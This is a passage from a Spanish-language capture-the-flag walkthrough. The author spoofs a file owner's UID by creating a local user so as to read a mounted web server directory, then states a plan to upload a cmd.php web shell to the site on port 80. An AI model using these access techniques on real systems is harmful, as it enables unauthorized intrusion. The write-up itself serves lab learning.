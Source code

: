 ```bash
❯ cd web_server
cd: permiso denegado: web_server
❯ ls -l
drwxr-xr-x 1001 scanner  4.0 KB Sun Apr 16 17:10:44 2023  ross
drwxr-xr-- 2017 www-data 4.0 KB Sun Apr 16 18:45:01 2023  web_server

```

Vamos a crear un nuevo usuario con ese identificador que es el `2017`

```bash
❯ useradd temp
❯ usermod -u 2017 temp
❯ groupmod -g 2017 temp
❯ id temp
uid=2017(temp) gid=2017(temp) grupos=2017(temp)
```

Ahora nosotros somos el propietario

```bash
❯ ls -l
drwxr-xr-x 1001 scanner  4.0 KB Sun Apr 16 17:10:44 2023  ross
drwxr-xr-- temp www-data 4.0 KB Sun Apr 16 18:50:01 2023  web_server

```

Ahora si podemos ver que hay dentro

```bash
❯ su temp
$ bash
┌─[temp@parrot]─[/mnt]
└──╼ $cd web_server/
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $ls
css  images  index.html  js
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $
```

Vemos que hay un `index.html` que es la pagina web en la pagina web de la maquina vimos que decia `FURTNITURE` si buscamos un `match` vemos que hay asi que esto esta sincronizado con la pagina web real que esta corriendo en el puerto `80`

```bash
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $cat index.html | grep "FURNITURE"
                     <h1 class="furniture_text">FURNITURE</h1>
                     <h1 class="furniture_text">FURNITURE</h1>
                     <h1 class="furniture_text">FURNITURE</h1>
```

Como la `web` corre `php` podemos subir un archivo `cmd.php` para ganar accesso ala maquina pero antes vamos a crear un `.txt` para ver si podemos verlo en la web (aunque aparesca ese error en el `nano` si no lo crea XD)
